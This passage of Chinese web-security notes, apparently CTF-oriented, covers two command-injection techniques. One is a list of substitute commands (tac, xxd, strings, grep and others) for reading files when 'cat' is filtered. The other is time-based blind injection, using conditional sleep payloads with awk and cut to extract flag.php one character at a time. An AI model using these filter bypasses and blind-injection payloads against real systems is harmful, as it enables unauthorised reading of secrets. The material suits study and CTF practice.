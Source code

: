
### 3. 文件读取命令过滤绕过 📖

**核心原理：**

当常用的文件读取命令（如 `cat`）被禁用时，可以使用其他功能相似或可以间接实现文件读取的命令。

**替代命令列表：**

* `tac`: 反向显示文件内容 (从最后一行到第一行)。
* `more`: 分页显示文件内容。
* `less`: 与 `more` 类似，但功能更强大。
* `head`: 显示文件开头部分。
* `tail`: 显示文件末尾部分。
* `nl`: 显示文件内容并加上行号。
* `od -A d -c -d <文件名>`: 以八进制、字符、十进制等多种形式转储文件内容。
* `xxd <文件名>`: 以十六进制形式转储文件内容，也可以转回。
* `sort <文件名>`: 对文件内容进行排序后输出（原内容可见）。
* `uniq <文件名>`: 报告或忽略重复行（通常与 `sort` 结合，但单独使用也能显示内容）。
* `file -f <文件名>`: （`-f` 通常用于读取文件名列表，但直接跟文件名有时也能显示少量内容或类型）。更常见的是 `file <文件名>` 获取文件类型。
* `grep <任意字符> <文件名>`: 查找并显示包含指定模式的行。
* `strings <文件名>`: 显示文件中的可打印字符序列。

---

### 4. 无回显时间盲注 ⏳

**核心原理：**

当命令执行无直接回显时，可以通过构造条件命令，并根据其执行时间差异来逐字符推断信息。这通常依赖于 `sleep` 命令或类似的耗时操作。

**利用步骤与技巧：**

1.  **判断存在性与行数：**
    * 使用 `sleep <秒数>` 结合条件判断。如果条件为真，则执行 `sleep`，导致响应延迟。
    * `if [ $(cat flag.php | wc -l) -gt 0 ]; then sleep 5; fi` (判断文件是否有内容)
2.  **逐行判断内容：**
    * `awk NR==<行号>`: 用于提取特定行。
    * `cat flag.php | awk NR==1` (提取第一行)
3.  **逐字符判断：**
    * `cut -c <字符位置>`: 用于提取特定位置的字符。
    * `cat flag.php | awk NR==1 | cut -c 5` (提取第一行的第5个字符)
4.  **构造盲注语句：**
    结合 `if` 条件和 `sleep` 进行盲注。
    ```bash
    # 判断第一行第一个字符是否为 'a'
    if [ $(cat flag.php | awk NR==1 | cut -c 1) == 'a' ]; then sleep 5; fi
    # 判断第一行第一个字符的 ASCII 值 (示例，可以用 test 或 [[ ... ]] -eq)
    if [ $(printf '%d' "'$(cat flag.php | awk NR==1 | cut -c 1)") -eq 97 ]; then sleep 5; fi
    ```
    通过遍历字符集和观察响应时间，可以逐个猜解出文件内容。

---